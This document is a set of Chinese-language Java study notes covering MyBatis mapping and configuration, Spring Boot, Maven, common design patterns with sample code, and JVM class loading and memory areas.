#### 映射文件描述

namespace和id组成了唯一标识



映射文件关于增删改查的配置如下

```xml
<mapper namespace="accountMapper">
    <select id="findAll" resultType="pojo.Account">
        select * from account
    </select>

    <select id="save" parameterType="pojo.Account">
        insert into account values(#{id},#{name},#{money})
    </select>

    <update id="updateById" parameterType="pojo.Account">
        update account set money=#{money} where id=#{id}
    </update>

    <delete id="deleteById" parameterType="pojo.Account">
        delete from account where id=#{id}
    </delete>
</mapper>
```


#### 核心配置文件

下面是最简单的sqlMapconfig文件配置

```xml
<configuration>
    <!--数据源环境-->
    <environments default="dev">
        <!--一个开发环境-->
        <environment id="dev">
            <transactionManager type="JDBC"></transactionManager>
            <dataSource type="POOLED">
                <property name="driver" value="com.mysql.jdbc.Driver"/>
                <property name="url" value="jdbc:mysql://localhost:3306/test"/>
                <property name="username" value="root"/>
                <property name="password" value="root"/>
            </dataSource>
        </environment>
    </environments>

    <!--加载映射文件-->
    <mappers>
        <mapper resource="mapper/AccountMapper.xml"/>
    </mappers>
</configuration>
```

常用配置

1、**properties**标签，可以加载外部文件

```xml
<properties resource="jdbc.properties"></properties>
```

2、typeAliases设置类型别名，之后再mapper中直接使用别名

```xml
<typeAliases>
        <typeAlias type="pojo.Account" alias="account"></typeAlias>
    </typeAliases>
```

3、mapper标签，加载映射配置

```xml
<mappers>
        <mapper resource="mapper/AccountMapper.xml"/>
    </mappers>
```


### dao层实现

**mybatis**使用动态代理实现dao层的开发，接口开发方式只需要程序员自己提供Mapper接口，会自动实现mapper的实现类

规范如下：

1. Mapper.xml中的namespace需要与mapper接口的全限定名相同
2. mapper接口方法名需要与mapper.xml文件每个标签的id相同
3. mapper接口的输入输出需要与mapper.xml的parametertype和resultype相同



### 动态sql

#### if和where标签

下面使用if标签来判断该字段是否为空，不为空就添加该sql语句，if标签与where标签配合来生成，该语句会判断单个字段或多个字段的联合查询

```xml
    <select id="selectByCondition" resultType="user" parameterType="user">
        select * from user
        <where>
            <if test="username!=null">
                and username=#{username}
            </if>
            <if test="id!=null">
                and id=#{id}
            </if>
        </where>
    </select>
```


#### foreach标签

in语句在mybatis中用foreach标签来代替

```xml
 <select id="selectByIds" resultType="user" parameterType="list">
        select * from user
        <where>
          <foreach collection="list" open="id in(" close=")" separator="," item="id">
              #{id}
          </foreach>
        </where>
    </select>
```


#### sql和include标签

因为很多sql语句是重复的，可以通过抽取来复用，这样以后修改的时候也只需要修改一处就可以了

```xml
<!--定义sql语句，复用-->
<sql id="selectUser">select * from user</sql>

 <select id="selectByIds" resultType="user" parameterType="list">
     <!--引用上面sql语句-->
        <include refid="selectUser"/>
        <where>
          <foreach collection="list" open="id in(" close=")" separator="," item="id">
              #{id}
          </foreach>
        </where>
    </select>
```


### 插件

**mybatis**可以使用第三方插件来对功能进行扩展，如添加分页助手**pagehelper**将分页操作进行封装。

1. 导入**pagehelper**的坐标

   1. ```xml
      <dependency>
                  <groupId>com.github.pagehelper</groupId>
                  <artifactId>pagehelper</artifactId>
                  <version>4.2.0</version>
              </dependency>
              <dependency>
                  <groupId>com.github.jsqlparser</groupId>
                  <artifactId>jsqlparser</artifactId>
                  <version>0.9.1</version>
              </dependency>
      ```

      

2. 在核心配置文件中配置插件，设置拦截器

   1. ```xml
      <plugins>
              <plugin interceptor="com.github.pagehelper.PageHelper">
                  <property name="dialect" value="mysql"></property>
              </plugin>
          </plugins>
      ```

3. 测试，通过在查询前添加如下代码即可实现分页

   1. ```java
      PageHelper.startPage(1,4);
      ```

   2. 还可以通过pageinfo来获得当前的页数、是不是最后一页等分页信息

      ```java
       //获得与分页相关的参数
              PageInfo<User> userPageInfo = new PageInfo<User>(users);
              int pageNum = userPageInfo.getPageNum();
              int pageSize = userPageInfo.getPageSize();
              System.out.println(pageNum + " " + pageSize);
      ```

      

### 查询

#### 一对多查询

一个订单对应一个用户，需要在订单pojo里添加user对象，在orderMap里使用resultmap标签和assocation标签

```java
public class Order {
    private int id;
    private int uid;
    private String item;
    private User user;
}
```

select标签返回不用resultType而使用resultMap

```xml
<resultMap id="orderMap" type="order">
        <id column="id" property="id"/>
        <result column="uid" property="uid"/>
        <result column="item" property="item"/>
        <association property="user" javaType="user">
            <id column="uid" property="id"/>
            <result column="username" property="username"/>
            <result column="passwd" property="passwd"/>
            <result column="birthday" property="birthday"/>
        </association>
    </resultMap>
    <select id="selectAll" resultMap="orderMap">
        select * from ord o left join user u on o.uid=u.id
    </select>
```


#### 对对多查询

一个用户对应多个订单，因为是多个，所以用resultmap标签和collection标签配合

```java
public class User {
    private int id;
    private String username;
    private String passwd;
    private Date birthday;
    private List<Order> orders;
}
```

```xml
 <resultMap id="userMap" type="user">
        <id column="id" property="id"/>
        <result column="username" property="username"/>
        <result column="passwd" property="passwd"/>
        <result column="birthday" property="birthday"/>
        <collection property="orders" ofType="order">
            <id column="oid" property="id"/>
            <result column="item" property="item"/>
            <result column="uid" property="uid"/>
        </collection>
    </resultMap>
```


## Springboot

- parent：定义了很多的坐标版本号，做了依赖管理，已达到减轻依赖冲突的目的，后续用户添加依赖不需要指定版本号
- starter：定义了当前项目所需要的依赖坐标，已达到减少依赖配置的目的


内嵌了tomcat，把tomcat当成对象管理放在spring容器中	


### 配置文件读取

通过ConfigurationProperties注解配上前缀可以把配置文件中与该前缀相关的配置封装到java对象中，注意对象属性名要与配置文件中一样

并且需要把java对象注册到spring容器中



该注解也可以用来配置第三方bean，如druid的datasource


### 整合第三方技术

1. 导入对应的starter
2. 根据第三方技术配置文件

下面配置mysql、mybatis和druid的导入

导入三方的pom包后，根据druid特别的配置名称来配置

```yml
spring:
  datasource:
    druid:
      driver-class-name: com.mysql.jdbc.Driver
      url: jdbc:mysql://localhost:3306/test
      username: root
      password: root
```


### 日志

```xml
<dependency>
            <groupId>org.springframework.boot</groupId>
            <artifactId>spring-boot-starter-logging</artifactId>
            <version>1.5.2.RELEASE</version>
        </dependency>
```



总结

1. 底层使用logback作为日志实现
2. 使用slf4j作为日志门面


### 打包

使用springboot提供的maven插件可以将工程打包成可执行的jar包

```xml
<build>
		<plugins>
			<plugin>
				<groupId>org.springframework.boot</groupId>
				<artifactId>spring-boot-maven-plugin</artifactId>
					</plugin>
		</plugins>
	</build>
```

springboot会把运行该文件所需要的jar包都打包在里面，并且会在META-INF中添加额外的如下内容

```xml
//springboot的主类
Start-Class: com.mybatis.demo.DemoApplication
Spring-Boot-Classes: BOOT-INF/classes/
Spring-Boot-Lib: BOOT-INF/lib/
Build-Jdk-Spec: 1.8
Spring-Boot-Version: 2.6.2
Created-By: Maven Jar Plugin 3.2.0
//springboot启动类，他回去运行主类
Main-Class: org.springframework.boot.loader.JarLauncher
```


### 类型校验

导入pom包，validation的接口包和hibernate实现包

```xml
<dependency>
			<groupId>javax.validation</groupId>
			<artifactId>validation-api</artifactId>
		</dependency>
		<dependency>
			<groupId>org.hibernate.validator</groupId>
			<artifactId>hibernate-validator</artifactId>
		</dependency>
```

创建javabean，添加@validated注解开启属性校验

使用@Max最大值限制等注解来限制属性

```java
@Data
@Component
@ConfigurationProperties("servers")
//开启属性校验
@Validated
public class ServerConfig {
    @Max(value = 4,message = "最大值不能超过4")
    private int port;
    @DurationUnit(ChronoUnit.HOURS)
    private Duration serverTime;
    @DataSizeUnit(DataUnit.BYTES)
    private DataSize datasize;
}
```


## Maven

### 是什么？

- 本质是一个项目管理工具，将项目开发和管理过程抽形成了项目对象模型(POM)
- POM（Project Object Model）




### 仓库

仓库用于存储jar包的

**分类**

- 本地仓库：自己电脑上的仓库
- 远程仓库：非本电脑的仓库
  - 中央仓库：maven团队自己维护的仓库
  - 私服：公司范围内维护的仓库，从中央仓库获取资源


**私服作用**：

- 仅对内部开放，对外部关闭
- 保存自主研发的jar包


### 坐标

**maven中定位资源的位置**

maven坐标组成

- groupId：定义当前的隶属组织名称
- artifactId：定义当前maven项目名称
- version：当前版本号


### 命令

- mvn compile 编译
- mvn clean 清理
- mvn test 测试
- mvn package 打包
- mvn install 安装到本地仓库


### 依赖

- 依赖的jar默认情况可以在任何地方使用，可以用个scope标签设定其范围

- 作用范围

  - main主程序范围有效
  - test测试程序范围内有效
  - package是否参与打包

  


### 生命周期与插件

生命周期分为三个：

- clean：清理工作
- default：核心工作例如编译、测试、打包和部署
- site：产生报告、发布站点


插件与生命周期绑定，执行对应插件就执行到对应生命周期


## 设计模式

### 单例模式

需要保证类只生产一个对象

分为饿汉和懒汉模式

饿汉指在调用获得对象之前就已经生成好对象了

```java
class ThreadOk{
    private static ThreadOk threadOk = new ThreadOk();
    private ThreadOk(){
    }
    public static  ThreadOk getThreadOk(){
        return threadOk;
    }
}
```

懒汉指只有在调用获得对象时候才会去生成对象

```java
class ThreadOk{
    private static ThreadOk threadOk;
    private ThreadOk(){
    }
    public static  ThreadOk getThreadOk(){
        if(threadOk == null){
            threadOk = new ThreadOk();
        }
        return threadOk;
    }
}
```

单例又分为线程安全和非线程安全，在多线程下为了保证只生产一个对象需要加锁或者使用静态内部类来生成对象，并且内部类生成对象也属于懒汉模式

该方法不会因为加锁而降低性能，因为jvm保证多线程并发访问的正确性

```java
class ThreadOk{
    private static class InstanceHolder{
        private static ThreadOk threadOk = new ThreadOk();
    }
    private ThreadOk(){
    }
    public static synchronized ThreadOk getThreadOk(){
        return InstanceHolder.threadOk;
    }
}
```

双重锁来保证多线程安全性

```java
class ThreadOk{
    private volatile static ThreadOk threadOk;
    private ThreadOk(){
    }
    public static  ThreadOk getThreadOk(){
        if(threadOk!=null)return threadOk;
        synchronized (ThreadOk.class){
            if (threadOk==null){
                threadOk = new ThreadOk();
            }
        }
        return threadOk;
    }
}
```

使用枚举来创建单例，解决了线程安全等问题

```java
public enum SingleOk {
    INSTANCE;
    public void test(){
        System.out.println("hi");
    }
}
```


### 工厂模式

避免创建者与具体的逻辑处理相互混合，区分开来后更加清晰也更加容易扩展

```java
public class ImplFactory {
    public Impl getImpl(Class clazz)throws InstantiationException,IllegalAccessException{
        if (clazz == null) {
            return null;
        }
        return (Impl) clazz.newInstance();
    }
}

public class CarImpl implements Impl {
    @Override
    public void sendMessage(int id, String name) {
        System.out.println("car输送信息id="+id+",name="+name);
    }
}

public class Truck implements Impl {
    @Override
    public void sendMessage(int id, String name) {
        System.out.println("truck输送信息id="+id+",name="+name);
    }
}
@Test
    public void getFac()throws Exception{
        ImplFactory implFactory = new ImplFactory();
        implFactory.getImpl(CarImpl.class).sendMessage(3,"52");
        implFactory.getImpl(Truck.class).sendMessage(4,"31");
    }
```


### 模板模式

核心设计思想是通过抽象类中定义抽象方法的执行顺序，并将抽象方法设定为只有子类可以实现

好处在于模板模式定义了统一的执行标准，对于后续实现者来说不用关心调用逻辑，让每一个子类只做子类需要完成的内容


```java
public abstract class Mall {
    String id;
    String name;

    public void buy(String id){
        login(id);
        shoppingCart();
        pay();
    }
    protected abstract boolean login(String id);

    protected abstract void shoppingCart();

    protected abstract void pay();
}
public class DangDangMall extends Mall{
    protected boolean login(String id) {
        System.out.println("当当会员登录成功，id为:"+id);
        return true;
    }

    protected void shoppingCart() {
        System.out.println("当当添加物品到购物车");
    }

    protected void pay() {
        System.out.println("完成当当支付");
    }
}

public class JDmall extends Mall {
    protected boolean login(String id) {
        System.out.println("京东会员登录成功，id为:"+id);
        return true;
    }

    protected void shoppingCart() {
        System.out.println("京东添加物品到购物车");
    }

    protected void pay() {
        System.out.println("完成京东支付");
    }
}
```

测试结果如下

```java
public class Test {
    public static void main(String args[]){
        Mall mall = new JDmall();
        mall.buy("520");

        mall = new DangDangMall();
        mall.buy("520");

    }
}
京东会员登录成功，id为:520
京东添加物品到购物车
完成京东支付
当当会员登录成功，id为:520
当当添加物品到购物车
完成当当支付
```


### 观察者模式

观察者模式是当一个行为发生时候，一个用户传递消息，另一个用户接受信息并做出处理，行为和接受者之间没有直接的耦合关联

拆分了核心流程和辅助流程的代码，当需要增强其他监听器时候不需要修改额外的代码

下面创建了不同的监听器

```java
public interface EventListener {
    public void doEvent(String message);
}
public class DotaEventListener implements EventListener {
    public void doEvent(String message) {
        System.out.println("您的dota好友{}上线了"+message);
    }
}
public class LolEventListener implements EventListener{
    public void doEvent(String message) {
        System.out.println("您的lol好友{}上线了"+message);
    }
}
```

messageManage是注册、取消和通知不同类型的监听器

gameservice把核心业务和辅助业务区分了开

```java
public class MessageManage {
    private Map<EventType,List<EventListener>> listenerMap = new HashMap<EventType,List<EventListener>>();

    public MessageManage(){
        listenerMap.put(EventType.DOTA,new ArrayList<EventListener>());
        listenerMap.put(EventType.LOL,new ArrayList<EventListener>());
    }

    public enum  EventType{
        DOTA,LOL
    }
    public void subsribe(EventType eventType,EventListener eventListener){
        List listenerList = listenerMap.get(eventType);
        listenerList.add(eventListener);
    }

    public void unsubsribe(EventType eventType,EventListener eventListener){
        List listenerList = listenerMap.get(eventType);
        listenerList.remove(eventListener);

    }

    public void notify(EventType eventType,String message){
        List<EventListener> listenerList = listenerMap.get(eventType);
        for(EventListener listener:listenerList){
            listener.doEvent(message);
        }

    }
}
public class GameService {
    private MessageManage messageManage;

    public GameService(){
        messageManage = new MessageManage();
        messageManage.subsribe(MessageManage.EventType.DOTA,new DotaEventListener());
        messageManage.subsribe(MessageManage.EventType.LOL,new LolEventListener());
    }

    public void doGame(){
        String message = "liquid";
        messageManage.notify(MessageManage.EventType.DOTA,message);
        messageManage.notify(MessageManage.EventType.LOL,message);
    }
}
```


```java
public void watch(){
        GameService gameService = new GameService();
        gameService.doGame();
    }
您的dota好友{}上线了liquid
您的lol好友{}上线了liquid
```


### 适配器模式

适配器模式把本来不匹配的接口通过适配做到了统一

常见如MQ消息中，一般在系统中会定义多个MQ，每个MQ都有不同的字段，做过不做一个统一的规范，那么每个MQ都需要一个专门处理他的函数，可以把MQ中相同的字段提取出来，通过代理类可以把不同名字相同意思的字段做映射

如下为MQ消息

```java
public class CreateAccount {
    private String number;
    private String address;
    private Date accountDate;
    private String desc;

}

public class PopOrderDeliverd {
    private String uid;
    private String orderId;
    private Date orderTime;
    private Date sku;
    private Date skuName;
    private BigDecimal decimal;
}
```

统一输出的MQ

```java
public class RebateInfo {
    private String userId;
    private String bizId;
    private Date bizTime;
    private String desc;
}
```

使用适配器来对不同MQ做统一输出

```java
public class MQAdapter {
    public static RebateInfo filter(String strJson,Map<String,String> map){
        return filter(JSONObject.parseObject(strJson,Map.class),map);
    }
    //map的key是映射目的的属性，value是被映射放
    public static RebateInfo filter(Map obj,Map<String,String> map){
        RebateInfo rebateInfo = new RebateInfo();
        for(String key : map.keySet()){
            //获得被映射方的值
             Object val = obj.get(map.get(key));
             RebateInfo.class.getMethod("set"+key.substring(0,1).toUpperCase()
                     +key.substring(1),String.class).invoke(rebateInfo,val.toString());
        }
        return rebateInfo;
    }
}

```

之后对其测试

```java
@Test
    public void adapter()throws NoSuchMethodException,InvocationTargetException,IllegalAccessException{
        CreateAccount createAccount = new CreateAccount();
        createAccount.setAddress("北京朝阳");
        createAccount.setDesc("liquid love mavis");
        createAccount.setAccountDate(new Date());
        createAccount.setNumber("520");

        Map<String,String> map = new HashMap<String, String>();
        map.put("userId","number");
        map.put("bizId","address");
       // map.put("bizTime","accountDate");
        map.put("desc","desc");
        RebateInfo rebateInfo = MQAdapter.filter(JSONObject.toJSONString(createAccount),map);

        System.out.println(JSON.toJSONString(createAccount));
        System.out.println(JSON.toJSONString(rebateInfo));
    }

输出入下
{"accountDate":1635858351763,"address":"北京朝阳","desc":"liquid love mavis","number":"520"}
{"bizId":"北京朝阳","desc":"liquid love mavis","userId":"520"}
```

 


### 迭代器模式

java实现迭代器需要实现Collection集合接口，该接口提供了集合能提供的添加删除元素操作，并且Colletion接口继承自Iterable接口

```java
public interface Collection<E> extends Iterable<E> 
```

该接口提供了能够获得Iterator的方法



获得的Iterator类中包含了hasNext和next的方法

java所以实现Collection的类都必须可以返回一个迭代器遍历数据

```java
public interface Iterator<E> {	
	boolean hasNext();
	E next();
}
```

所以想要实现迭代器，就需要实现Collection接口，并且在实现返回迭代器方法的地方可以用匿名类来生成迭代器类

```java
class EmployeIterator implements Collection<Employee>{
    private int index = 0;
    private List<Employee> list;
    public EmployeIterator(){
        list = new ArrayList<>();
    }
    @Override
    public Iterator<Employee> iterator() {
        return new Iterator<Employee>() {
            @Override
            public boolean hasNext() {
                return index<list.size();
            }

            @Override
            public Employee next() {
                return list.get(index++);
            }
        };
    }
    @Override
    public boolean add(Employee employee) {
        return list.add(employee);
    }

    @Override
    public boolean remove(Object o) {
        return list.remove(o);
    }
}
```


迭代器优点在于能够以相同方式遍历不同的数据结构元素，用户在遍历时候不需要关心内部实现逻辑，做到统一便用，但是在实现上相对要复杂一点。


### 责任链模式

责任链介绍了请求者处理者之间的耦合程度，减少了代码里的if-else的复杂逻辑关系，请求者不用关心责任链如何传递和处理，只关心处理结果

```java
public class AuthService {
    private static Map<String,Integer> map = new HashMap<>();

    public static Integer queryInfo(String name){
        return map.get(name);
    }

    public static void doAuth(String name){
        int num = 0;
        if(map.get(name)!=null){
            num = map.get(name);
        }
        num++;
        map.put(name,num);
    }
}
//设计一个父类，让其他责任链继承该父类
public abstract class AuthLink {
    protected AuthLink next;
    protected String levelName;
    protected Integer levelId;

    public AuthLink(String levelName, Integer levelId) {
        this.levelName = levelName;
        this.levelId = levelId;
    }

    public AuthLink next(){
        return next;
    }

    public AuthLink appendNext(AuthLink next){
        this.next = next;
        return this;
    }

    public abstract AuthInfo doAuth(String username);
}
//第一个责任节点处理完后交给下一个责任节点
public class Level1Link extends AuthLink {
    public Level1Link(String levelName, Integer levelId) {
        super(levelName, levelId);
    }

    @Override
    public AuthInfo doAuth(String username) {
        Integer integer = AuthService.queryInfo(username);
        if(integer==1){
            return new AuthInfo(levelId,"当前级别为"+integer+"，状态为一级审批人审批中，姓名为:"+this.levelName+"。被审批人"+username);
        }
        AuthLink next = super.next();
        if(next == null){
            return new AuthInfo(levelId+1,"当前级别为"+integer+"，状态为一级审批人完成中，姓名为"+this.levelName+"。被审批人"+username);
        }
        if(integer==2){
            return new AuthInfo(levelId+1,"当前级别为"+integer+"，状态为一级审批人完成中，姓名为"+this.levelName+"。被审批人"+username);
        }
        return next.doAuth(username);
    }
}
//创建责任链
AuthLink authLink = new Level1Link("项目经理",1)
                .appendNext(new Level2Link("CTO",2))
                .appendNext(new Level3Link("董事长",3));
```

==最终输出如下==

```
15:03:31.093 [main] ERROR design.Design - AuthInfo(code=1, info=当前级别为1，状态为一级审批人审批中，姓名为:项目经理。被审批人刘阳)
15:03:31.096 [main] ERROR design.Design - AuthInfo(code=2, info=当前级别为2，状态为一级审批人完成中，姓名为项目经理。被审批人刘阳)
15:03:31.097 [main] ERROR design.Design - AuthInfo(code=3, info=当前级别为3，状态为三级审批人审批中，姓名为:董事长。被审批人刘阳)
15:03:31.097 [main] ERROR design.Design - AuthInfo(code=4, info=当前级别为4，审批流程完成，姓名为董事长。被审批人刘阳)
15:03:31.097 [main] ERROR design.Design - AuthInfo(code=4, info=当前级别为5，审批流程完成，姓名为董事长。被审批人刘阳)
```


责任链的应用很多，著名的如Netty中的ChannelPipline链，控制网络信息的逻辑处理


### 装饰器模式

装饰器模式就像在套娃，它的核心在不改变原有类的基础上给类新增功能，当然也可以选择子类集成和AOP切面来完成。但是==子类集成会导致子类过多，AOP切面较为复杂==

装饰器模式解决了直接继承导致的功能不断横向扩展子类膨胀的问题，装饰器更为灵活

装饰器有四点：

1. 定义抽象接口
2. 实现抽象接口
3. 抽象装饰角色
4. 具体装饰角色

```java
public interface Action {
    public void doAction();
}
//一个实现类
public class PlayAction implements Action {
    @Override
    public void doAction() {
        System.out.println("该孩子可以玩耍");
    }
}
```

下面在编写装饰角色

```java
public abstract class NewAction implements Action {
    private Action action;
    private NewAction(){

    }
    public NewAction(Action action) {
        this.action = action;
    }

    @Override
    public void doAction() {
        this.action.doAction();
    }
}

public class SwimActionDecorator extends NewAction{
    public SwimActionDecorator(Action action) {
        super(action);
    }

    @Override
    public void doAction() {
        super.doAction();
        System.out.println("这孩子还选择了游泳");
    }
}

public class DotaActionDecorator extends NewAction{
    public DotaActionDecorator(Action action) {
        super(action);
    }

    @Override
    public void doAction() {
        super.doAction();
        System.out.println("该孩子打了dota");
    }
}

 @Test
    public void decorator(){
        DotaActionDecorator dotaActionDecorator = new DotaActionDecorator(new SwimActionDecorator(new PlayAction()));
        dotaActionDecorator.doAction();
    }
```

==java中字节流这些就是采用了装饰器模式==

```java
ByteArrayOutputStream byteArrayOutputStream = new ByteArrayOutputStream();
ObjectOutputStream objectOutputStream = new ObjectOutputStream(byteArrayOutputStream);
```


### 门面模式

也成为了外观模式，对外提供了简单的接口调用，省略了复杂的细节（包含多个接口的调用）

将复杂的接口简单化，减少了客户端与接口的耦合，可能产生大量的中间类对系统增加了复杂度



```java
public class ButtonOpen {
    public static void main(String[] args) {
        new Cpu().start();
        new Disk().start();
        new Driver().start();
    }
}
class Cpu{
    public void start(){
        System.out.println("CPU开机了");
    }
}
class Disk{
    public void start(){
        System.out.println("磁盘启动了");
    }
}
class Driver{
    public void start(){
        System.out.println("驱动启动了");
    }
}
```


==日志系统采用了门面模式==

下面的slf4j就是门面模式



slf4j如何决定使用哪个日志框架呢？

- 如果要使用log4j就是需要**slf4j**的包和**log4j**的包，在包括**slf4j-log4j**的适配包
- log4j2配合需要导入适配包**log4j-slf4j-impl****.jar**和log4j2的**log4j-api.jar**、**log4j-core.jar。
- logback只需要导入**logback-classic**和**logback-core.jar**即可，不需要适配包。




那么什么是适配包为什么logback不需要适配包呢？

如下为适配包（==适配包实现了slf4j-api下的SPI接口==），最重要的类叫StaticLoggerBinder



slf4j会在该路径下找到该类，因为log4j和log4j2原生没有，所以需要适配包写这个类完成适配

```
private static String STATIC_LOGGER_BINDER_PATH = "org/slf4j/impl/StaticLoggerBinder.class";
```

slf4j在创建LoggerFactory时候就会让StaticLoggerBinder来返回工厂也就是log4j的工厂

这里可以看到从StaticLoggerBinder中获得到的工厂是下面这个工厂

==private final ILoggerFactory loggerFactory = new Log4jLoggerFactory()==

```java
public final class StaticLoggerBinder implements LoggerFactoryBinder {
    public static String REQUESTED_API_VERSION = "1.6";
    private static final String LOGGER_FACTORY_CLASS_STR = Log4jLoggerFactory.class.getName();
    private static final StaticLoggerBinder SINGLETON = new StaticLoggerBinder();
    private final ILoggerFactory loggerFactory = new Log4jLoggerFactory();

    private StaticLoggerBinder() {
    }

    public static StaticLoggerBinder getSingleton() {
        return SINGLETON;
    }

    public ILoggerFactory getLoggerFactory() {
        return this.loggerFactory;
    }

    public String getLoggerFactoryClassStr() {
        return LOGGER_FACTORY_CLASS_STR;
    }
}
```

==至于logback为什么==是因为logback在slf4j后面出来，已经自带了StaticLoggerBinder


### 桥接模式

通过桥接模式把两个相互组合的类型分离出来，其核心事项就是在A类中包含有B类接口，通过构造函数传递B类的实现，==这个B类就是桥==

定义了抽象的pay代表渠道，和接口paymode支付模式，把paymode作为参数传递个pay

```java
public abstract class Pay {
    protected PayMode payMode;

    public Pay(PayMode payMode) {
        this.payMode = payMode;
    }

    public abstract void pay();
}
public interface PayMode {
    public void check();
}
```

下面是相应实现

```java
public class WxPay extends Pay {
    public WxPay(PayMode payMode) {
        super(payMode);
    }

    public void pay() {
        System.out.println("微信支付");
        payMode.check();
    }
}
public class ZfPay extends Pay{
    public ZfPay(PayMode payMode) {
        super(payMode);
    }

    public void pay() {
        System.out.println("支付宝支付");
        payMode.check();
    }
}
//支付模式
public class FingerPayMode implements PayMode {
    public void check() {
        System.out.println("指纹识别支付");
    }
}
public class FacePayMode implements PayMode{
    public void check() {
        System.out.println("人脸识别支付");
    }
}

//输出
 @Test
    public void brige(){
        Pay pay = new WxPay(new FingerPayMode());
        pay.pay();
    }
//微信支付
//指纹识别支付
```


jdbc就是使用了桥接模式，分为了Driver接口和Connection接口


### 区别

**桥接模式**：目的是将接口部分与实现部分分离，从而让他们容易也相对独立的加以改变。比如组合接口和抽象，应对有两个维度的变化

**装饰模式：**装饰者模式在不改变原始类接口的情况下，对原始类功能进行增强，并且支持多个装饰器的嵌套使用。

**适配器模式：**适配器模式是一种事后的补救策略。适配器提供跟原始类不同的接口


## JVM

特点：

- 一次编译，到处运行
- 自动内存管理
- 自动垃圾回收功能


jvm虚拟机基于栈的指令集架构，优点在于跨平台性、指令集小，指令集多，缺点是执行性能低于寄存器


总的结构图




### 类加载器

主要把class文件加载到内存中，供后续执行引擎执行



#### 加载阶段

1. 通过类的全限定名来获取定义此类的二进制流
2. 将字节流所代表的静态存储结构转换为方法区的运行时数据结构
3. 在内存中生成代表该类的class对象，作为方法区这个类的各种数据入口


#### 链接

1. 验证
   1. 母的确保class字节流包含信息符合虚拟机要求
2. 准备
   1. 为类变量初始化赋值为默认值，如0，这里如果static被final修辞段的话，在编译时候就被分配了，准备阶段显示初始化
   2. 类变量被分配在方法区，实例变量会随着对象一起分配到堆
3. 解析
   1. 将常量池内的符号医用转换为直接引用


#### 初始化


#### 自带的加载器

##### 启动类加载器

- 这个类加载使用C/C++实现，嵌套在jvm内部
- 并不继承ClassLoader类
- 只加载少部分安全的类

##### 扩展类加载器

- 加载ext目录下的扩展类

##### 应用程序类加载器

- 负责加载环境变量classpath下的类库
- 是程序的默认类加载器


#### 双亲委派机制

当一个类需要被加载时候，子类加载器会传给上一层加载器，上一层也传给其父类直到最上层加载器，最上层加载器查看自己能否加载，能则加载，不能则交给下层加载。




### 运行时数据区




各部分是否共享和有什么异常




#### 虚拟机栈

> 栈是运行时的单位，堆是存储的单位

每个线程在创建时候都会有对应的虚拟机栈，是线程私有的


栈不存在垃圾回收问题，但存在栈溢出问题


##### 栈帧

线程上每个方法对应栈帧，栈帧是一个内存区域，维系着方法执行过程中的各种数据信息



一个栈帧内部包括了：

- 局部变量表
  - 用于存储方法参数和局部变量，==不存在数据安全问题==
  - 局部变量表的最基本单位为slot，long和double占用两个slot，其他类型占用1个slot，==this引用会放在第一个位置==
  - 所需的容量在编译器确定
- 操作数栈
  - 主要用于保存计算的中间结果，同时为计算过程变量提供临时存储空间
  - 在编译器确定深度
- 动态链接
  - 将符号引用转换为直接引用
  - 例子：  下面左边的就是符号引用，右边人能看懂的是直接引用
  - #26 = Utf8               com/example/jvm/StackTest
- 方法返回地址


##### 符号引用有三类

1. 类和接口的全限定名
2. 字段的名称和描述符
3. 方法的名称和描述符


##### 方法的调用

- 静态链接：编译期就把符号引用转换为直接引用
- 动态链接：运行期才把符号引用转换为直接引用


#### 堆

堆中对每个线程都有一个独有的缓冲区叫**TLAB**

堆是GC垃圾回收的重点区域


##### 内存细分

- java7之前是新生区+老年区和永久区
- java8之后是新生区+老年区+元空间

永久代和元空间实际上又是==方法区的实现方式==


> -Xms用来设置堆空间的初始内存大小

> -Xmx用来设置堆空间的最大大小


默认情况新生代：老年代为1:2

eden和s0/s1的比例是8:1:1



###### 新生代对象分配与回收

**MinorGC**：用来处理eden已满的情况。

当对象在MinorGC存活下来后，放到s0或s1中，并标记上年龄，同时s0中的对象如果存活放在s1中，增加年龄，之后s1又放到s0中，到对象年龄超过15后，就放到老年代区。

==会引发STW(stop the world)暂停用户线程，等垃圾回收结束后，用户线程才恢复==

注意：垃圾回收常在新生代，少在老年代，几乎不再元空间收集。

**MajorGC**：用来处理老年代的对象

比MinorGC慢

**FullGC**：收集整个java堆和方法区的垃圾收集

触发情况

1. ​	调用System.gc()
2.  老年代空间不足
3. 方法区空间不足
4. 经过minorgc进入老年代的对象大于其老年代可用内存
5. surviror区相互复制时候，对象大于s区后，要放到老年代，但老年代内存不足




###### TLAB

由于堆是线程共享区域，并发环境下在堆中划分内存空间是线程不安全的，如果加锁，会影响分配速度

提出了TLAB来解决这个问题

每个线程都有私有的缓存区域，该区域是在==eden区域内==，默认情况下仅占1%

 

###### 堆空间参数

-Xms用来设置堆空间的初始内存大小

-Xmx用来设置堆空间的最大大小

-Xmn新生代的大小

-XX:NewRation新生代与老年代比例

-XX:SurvivorRation新生代的Eden和s0/s1比例

-XX:+PrintGCDetails输出详细gc日志

-XX:MaxTenuringThreshold：设置新生代垃圾最大年龄

-XX:HandlePromotionFailure：是否设置空间分配担保
	该参数在jd7后没有用了，只要老年代的连续空间大于新生代对象总大小或者历次晋升的平均大小就会进行MinorGC


##### 逃逸分析

随着JIT编译器的发展和逃逸技术的发展，堆不再是唯一分配对象的位置

==如果经过逃逸分析发现，一个对象没有逃离出方法的话，就可能被优化为栈上分配，对象被分解为标量存在栈上==


逃逸分析基本行为就是分析对象动态作用域：

> 注意判断new的对象实体有没有被外部引用

- 当一个对象在方法中被定义后，对象只在方法内部使用，则认为没有发生逃逸
- 当一个对象在方法被定义后，他被外部方法所引用，则认为发生逃逸，例如作为调用参数被传递到其他方法中


逃逸分析优化方式：

1. 栈上分配
2. 同步消除：JIT判断一个同步块如果只有一个线程访问，那么 就消除同步锁
3. 标量替换：如果一个对象不被外界访问，那么就会把对象分解为成员变量作为标量，标量是java中的最小单位

```java
class Point{
        int x;
        int y;
    }
void haha(){
        Point point = new Point();
        point.x = 1;
        point.y = 2;
        //标量替换为下面的
        int x = 1;
        int y = 2;
    }
```


#### 方法区

该区逻辑上属于堆得一部分，具体实现上独立于堆

##### 栈堆方法区的相互关系




##### 方法区的演进

- java7之前是新生区+老年区和永久区
- java8之后是新生区+老年区+元空间

永久代和元空间实际上又是==方法区的实现方式==

元空间不再虚拟机设置的内存中，而是使用本地内存


##### 内部结构

方法区主要存储类信息、常量、静态变量、JIT的代码缓存



常量池存了字面量，类型、字段、方法的符号引用

常量池通过类加载器放到运行时数据区后，称为==运行时常量池==

​	与常量池不同，运行时常量池存的不再是符号引用而是实际的地址


在jdk7后，静态变量和字符串常量池放在了堆中，如下图



